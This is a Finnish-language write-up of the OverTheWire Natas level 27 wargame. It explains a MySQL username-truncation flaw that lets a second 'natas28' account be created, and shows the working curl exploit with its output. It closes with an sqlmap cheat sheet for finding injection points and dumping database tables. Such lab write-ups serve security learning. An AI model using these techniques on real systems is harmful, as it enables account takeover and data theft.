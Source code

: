 **LISÄTIETOA:**
Haettu netistä lisätietoa ja apua, mutta tämä on tekoälyn apua. Tämä komento lähettää POST pyynnön ja tekee sellaisen arvauksensa.

Sovellus ei tarkistanut onko "samanniminen" käyttäjä jo olemassa, koska käyttäjänimi ei ole UNIQUE. Koska se käyttää VARCHAR(64) kenttää, MySQL leikkaa käyttäjänimen automaattisesti 64 merkkiin. Tuloksena on toinen käyttäjä, jonka truncattu käyttäjänimi on täsmälleen natas28, eli täsmää olemassa olevaan oikeaan käyttäjään.


Lyhyesti sanottuna on logiikkavirhe, ei SQL injektio ja onkin hyödyntämistä käyttäytymistä.

1. Lähetit lomakkeeseen yli 64-merkkisen käyttäjänimen, joka alkaa natas28.
2. MySQL katkaisi nimen 64 merkkiin, jolloin siitä tuli vain natas28, sama kuin olemassa oleva käyttäjä.
3. Koska käyttäjänimet eivät ole uniikkeja, tietokantaan lisättiin toinen natas28.
4. Nyt voit kirjautua sisään omalla salasanallasi käyttäen nimeä natas28.
5. Sovellus näyttää sinulle tiedot (ja salasanan) oikealta natas28-käyttäjältä, koska se ei tarkista salasanaa kunnolla.


```
┌──(kali㉿kali)-[~]
└─$ curl -u natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne \
-d "username=natas28$(python3 -c 'print("A"*100)')" \
-d "password=abc123" \
http://natas27.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "u3RRffXjysjgwFU6b9xa23i6prmUsYne" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
User natas28AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA was created!<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


Tämä osuus on kuin pieni sqlmap **sql injektion** lunttilappu osuus jos mikäli haluttaisiin tarkistaa toi natas27:sen tietokannan olemassaolon ja jos on niin mitä seuraavaksi pitäisi tehdä ja saada selville. 

```
testausta löytyykö injketiopiste

sqlmap -u "http://natas27.natas.labs.overthewire.org/" \
--auth-type Basic --auth-cred "natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne" \
--data "username=test&password=test" \
--batch --level=1 --risk=1 --identify-waf


- jos injkeito löytyy niin lisätään tietokanna nimen: --dbs
- jos tietokanta löytyy sitten lisätään perään: --tables -D <tietokannan_nimi>
- ja viimeisenä dumppaus ulos jos löytyy ja lisätään perään: --dump -D <tietokanta> -T users
```
